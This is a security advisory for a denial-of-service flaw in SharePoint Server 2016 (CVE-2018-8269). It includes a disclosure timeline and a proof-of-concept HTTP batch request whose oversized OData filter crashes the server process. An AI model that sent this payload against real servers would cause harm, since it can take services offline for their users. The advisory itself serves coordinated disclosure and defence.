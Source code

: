 ```yaml
---
layout: vuln
credit: gilm
timeline:
    - type: 'report'
      date: '2018-07-18'
      arg: 'Microsoft Security Response Center'
    - type: 'deadline-extension-offer'
      date: '2018-10-10'
      arg: 'I don&#39;t have an ETA for when their investigation will complete. I will contact you early next week to provide an update.'
    - type: 'deadline'
      date: '2018-10-15'
    - type: 'release'
      date: '2018-10-22'


product: SharePoint Server 2016
severity: 'high'
alephid: ALEPH-2018002
date: '2018-10-22'
references:
    - src: 'OData Denial of Service Vulnerability'
      url: 'https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2018-8269'
  
title: 'DOS Vulnerability in SharePoint 2016 Server'

---
```


A vulnerability in Microsoft SharePoint Server could allow a remote attacker to make the server unavailable.

The vulnerability is a result of the dependency SharePoint has in `Microsoft.Data.OData` library which was vulnerable to remote DOS (See @CVE-2018-8269).

The exploit is done by sending a crafted request that contains an OData filter that triggers the vulnerability in Microsoft.Data.OData library. Sending such request, will terminate the process that runs the server.

By default, SharePoint server is configured to recover a terminated process, but it will do so only 10 times.
If more than 10 malicious requests are sent in 5 minutes interval, the server will not recover and will be down until it is manually restarted.

## Proof Of Concept ##
Following is a sample HTTP request that can be used for such attack.
```http
POST /_api/$batch HTTP/1.1
Host: test-server
X-RequestDigest: XXXXX
Authorization: Basic XXXXX
content-type: multipart/mixed; boundary=batch_312b6c52-0483-45b9-9133-91be5d91edb9
Content-Length: 49012

--batch_312b6c52-0483-45b9-9133-91be5d91edb9
Content-type: application/http
Content-Transfer-Encoding: binary

GET http://test-server/_api/web/lists?$filter=true+or+true+or+true+ … (~ 6100 repetitions)
accept: application/json;odata.metadata=minimal

--batch_312b6c52-0483-45b9-9133-91be5d91edb9--
```
